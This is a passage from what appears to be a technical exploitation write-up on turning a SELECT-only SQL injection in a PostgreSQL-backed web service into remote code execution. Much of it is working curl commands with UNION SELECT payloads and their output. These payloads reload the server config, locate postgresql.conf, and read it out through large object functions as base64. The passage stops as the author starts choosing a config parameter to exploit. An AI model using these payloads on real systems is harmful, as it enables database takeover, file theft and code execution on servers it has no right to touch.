 
Success! All "rol" flags were flipped to true! Can we reload the config
now?

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, CAST((SELECT pg_reload_conf()) AS text)"
[
    {"id":1337,"text":"true"}
]
```
<PRE>

Notice that this query now returns a row with "text" set to "true",
confirming that we are indeed able to reload the config now.

That's more like it! We can now perform SELECT-only RCE.


--[ 4 - SELECT-only RCE

---[ 4.0 - Reading original postgresql.conf

The first step in performing the RCE is to download the original config
file. Since we are a super-admin now, we can query its path directly from
the "pg_settings" table without any extra path guessing effort:

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, sourcefile FROM pg_file_settings"
[
    {"id":1337,"text":"/etc/postgresql/13/main/postgresql.conf"}
]
```
<PRE>


Let's download it with the help of previously used Large Object functions:

</PRE>
```console
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337, CAST((SELECT lo_import('/etc/postgresql/13/main/postgresql.conf', 3333331337)) AS text)"
[
    {"id":1337,"text":"3333331337"}
]

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 UNION SELECT 1337,translate(encode(lo_get(3333331337), 'base64'), E'\n', '')" | jq ".[].text" -r | base64 -d > postgresql.conf
```
<PRE>


---[ 4.1 - Choosing a parameter to exploit
